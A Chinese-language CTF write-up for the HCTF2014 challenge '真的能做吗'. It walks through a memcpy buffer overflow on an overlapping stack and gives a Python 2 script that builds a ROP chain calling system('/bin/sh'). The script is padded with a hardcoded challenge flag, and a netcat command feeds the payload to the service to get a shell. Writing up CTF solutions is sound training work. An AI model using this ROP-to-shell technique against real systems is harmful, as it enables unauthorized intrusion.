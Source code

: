 ```yaml
---
layout: post
title: HCTF2014 真的能做吗600 writeup
catagories: [ctf]
tags: [ctf, writeup, hctf, xctf]
---
```

> wow的这一题的binary同时也是“真的能做吗”的binary.

这一题的问题，在分析wow这一题已经发现了，`memcpy()`函数产生溢出，
但`memcpy`函数的dst和src如果超过`0x30+0x8(rbp)+0x8(retaddr)`这么长，会产生dst和src重叠的问题
查上一下，`memcpy()`在处理重叠问题的时候会产生未知的效果，我也试了一下，它只
保留最终的`0x30+0x8+0x8`这些数据，前面的数据都会丢失，那也就是说，我们的可以利用的缓
冲区也就是从`ebp-0x30`到`retaddr`之间，直接改写，就改写了retaddr。

利用ROPGadget找到`pop rdi, ret`和`pop xx, pop xx, pop xx, ret`, 因为这题的libc是静态编译到wow的，所以可以找到`system()`
的地址，IDA里也可以搜索`/bin/sh`,万事俱备。

同时，由于需要绕过前面这个大循环，所以需要wow题的flag.此flag长度22,那么我们的栈大概是这样的布局

```
//memcpy之前
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     xxx
rip+0x10    xxx
rip+0x10    xxx

//memcpy之后
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x10    wowflag
rip+0x18    wowflag8
rip+0x20    wowflag22+"AA"
rip+0x28    poprdi_gadget
rip+0x30    binsh_addr
rip+0x38    system_addr
rip+0x40    "B"*8
rip+0x48    pop3ret_addr
...(以下每8*8字节重复)
```

因此生成shellcode的代码为：

```python
#!/usr/bin/env python2
from struct import pack

pop3    = 0x00007ffff75f35ad
poprdi  = 0x00007ffff75f59f2
system  = 0x00007FFFF7618310
binsh   = 0x00007FFFF774CFE7 

pad = "hctf{LJ_y6cdc_qweert!}"

shellcode = ""
shellcode += pad 
shellcode += "A"*(24-len(pad)) 

shellcode += pack("<Q", poprdi)
shellcode += pack("<Q", binsh)
shellcode += pack("<Q", system)
shellcode += "B"*8

shellcode += pack("<Q", pop3)

fd = open("shellcodez", "w")
fd.write(shellcode)
fd.close()
```

输入`cat shellcodez -| nc addr port`拿到shell,flag在`/home/wow/`下
